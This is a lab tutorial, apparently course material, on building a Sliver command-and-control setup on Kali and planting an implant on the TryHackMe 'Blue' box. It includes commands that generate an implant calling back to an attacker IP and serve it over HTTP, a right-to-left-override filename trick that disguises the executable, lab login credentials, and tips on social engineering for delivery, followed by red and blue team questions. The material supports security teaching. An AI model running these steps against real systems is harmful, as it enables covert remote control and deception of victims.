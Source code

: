 # sliver C2 platform and Kali

## Pieces of a typical Command and Control attack
There are three pieces to a typical C2 setup:
1. A server which accepts incoming connections from a compromised machine.
2. A client that the threat actor uses to connect, through the C2 server, to the compromised machine.
3. The implant or beacon which is run on the compromised machine.

Let's start building our C2 system.

On Kali, first do:
```sudo apt install sliver```

Next, make sure your networking is in place. For instance, if you are connecting to a host over a VPN do that now and then execute:

```ip a```

and record the relevant ip address.

Finally, let's make a directory like ```sliver``` and then ```cd``` into it.

### 1. Starting up the sliver server

For piece 1, we start the server and then craft the exploit so that it knows to call home to this.
```sliver-server```

### 2. Start an http server as your C2 server
```http```

This should bind to port 80. If not, change the port as needed.

### 3. Create an implant
We need to create an implant that phones home to our server. 

```
generate -b http://10.6.1.70
```

Then execute 

```implants``` 

to ensure that the implant is created and pointing to the correct server. Note the ```Name``` of the implant.

### 4. Get the implant to the user

In pentesting, this is where you need to get creative and do a bit of social engineering to encourage the user to download and execute this file. It could be via email, messaging, etc. 

For the sake of this demo, open a shell and find where your implant is located. Execute:

```python3 -m http.server``` 

to start a web server which can serve this implant. It is likely running at port 8000.

```document\u202Efdp.exe```

### 5. DEMO: Using THM's Box
We used the ```Blue``` box to learn about RCE's and metasploit. Let's also try it here.

Start ```Blue``` on THM and record the IP address of the box.

Remote desktop into the machine using:

```rdesktop IP_ADDRESS```

Log in as ```Jon``` with ```alqfna22``` as a password. (How did you get this?)

Open a web browser and connect back to your Kali box at port, something like
```http://10.6.1.70:8000```

Find the implant. Download it and run it. pwned!

### 6. Watch for connections on your C2 server.

If this all works, you should see a new session on the sliver-server. Type

```use``` to start working with this session.

Do commands like ```ls``` and ```whoami``` from the prompt.

Try taking a screen shot of the machine. 

Can you get the flags from this machine this way?

### 7. What is next?

#### RED TEAM: 
* How would you get this payload to the user? What tactics would you use? 
* What challenges do you think you will need to overcome?
* You've just scored your first implant inside the corporate IT network. What is your plan of attack from here?


#### BLUE TEAM: 

* How do you prevent C2 implants?
* How do you detect C2 implants?
* How do protect against the next move of the red team after successfully scoring a C2 implant?


